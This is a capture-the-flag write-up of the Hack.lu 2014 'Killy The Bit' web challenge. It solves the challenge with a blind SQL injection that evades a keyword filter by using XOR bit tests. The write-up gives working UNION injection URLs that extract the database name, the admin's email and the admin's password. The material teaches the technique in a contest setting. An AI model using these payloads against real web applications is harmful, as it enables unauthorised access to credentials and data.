 ## Hack.lu CTF 2014 - Killy The Bit (Web 200)
##### 21-23/10/2014 (48hr)
___

### Description: 
Killy the Bit is one of the dangerous kittens of the wild west. He already flip-
ped bits in most of the states and recently hacked the Royal Bank of Fluxembourg. 
All customer of the bank are now advised to change their password for the next 
release of the bank's website which will be launched on the 23.10.2014 10:01 CEST. 

Killy the Bit stands in your debt and sent the following link. Can you break the 
password generation process in order to get access to the admin account?	

___
### Solution

The source code reveals that this is an Blind SQL injection. The filters are: sleep, 
benchmark, and, or, |, &. However things can become more difficult because we can't use
names like ORD() (contains 'or'), or INFROMATION_SCHEMA.tables (contais 'or' too). Let's
try to craft 2 valid sql injection statements:

First we create a statement that returns TRUE:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=1--  
```
	
The page that returned to user, contains the following response: "A new password was 
generated and sent to your email address!". Now let's create the FALSE statement:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=0--  
```

The page that reuturned contains this time the message: "We couldn't find your username!
Are you sure it is ' UNION ALL SELECT name, email FROM user WHERE 1=0-- ?"

Awesome! Now we have a way to extract data from the database. We can extract 1 bit of 
information at a time. The classic way to do this is by reading a character and getting 
the value of each bit (we need 8 requests for each character). In order to do this we
need the & operator:
```
	if( character & 128 == 0 ) 1st bit = 0. else 1st bit = 1
	if( character & 64  == 0 ) 2nd bit = 0. else 2nd bit = 1
	.... and so on.
```
	
The other way is to do a binary search (< and > are allowed), but we'll do something 
different: & and | are not allowed, but XOR is allowed: ^

So, how we can check the value of a specified bit using XOR? Consider a number x. Then:
```
	if( x^128 > x ) then 1st bit = 0 else 1st bit = 1
	if( x^64  > x ) then 2nd bit = 0 else 2nd bit = 1
	.... and so on.
```
	
But why this is right? If MSBit of x is 1 then by XORing it with 128=1000000(2) we'll flip
the MSBit. If the bit was 0 then by flipping it the result will be greater that the initial
number. But if the bit was 1, after flipping will be 0, and the result will be smaller than
the initial value.
Now, let's start by finding the database name. The query we insert is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR(SCHEMA(),$_i_$,1))>
		     (ASCII(SUBSTR(SCHEMA(),$_i_$,1))^$_mask_$)--+	
	&submit=Generate#
```
	
Where the variable $_i_$ gets the values 1,2,3... and the variable $_mask_$ the values 128,
64,32,16,8,4,2 and 1. After executing the script (see below) we can get the database name:
``
	ctf-level
```
	
Now let's get admin's email. The query is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
	&submit=Generate#
```

After many requests, we get the admin's email: admin@bankoffluxembourg.com
But we want admin's password. We have a table, and it has 2 columns "name" and "email". It's very
like to has a column for the password. Let's try common names for password columns: "pass", "pw", 
"passwd", "password" (cannot be used -> contains 'or'). We find that the correct column name is
"passwd". Now let's get the admin's password:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
		&submit=Generate#
```

After many requests, we get the flag: **flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}**.


___
After getting the flag, the authors post the following hints:
Hint: Blind SQLi is not a good solution. You can get the correct and complete flag with one single request!
Hint: The password's column name is 'passwd'.

:(

___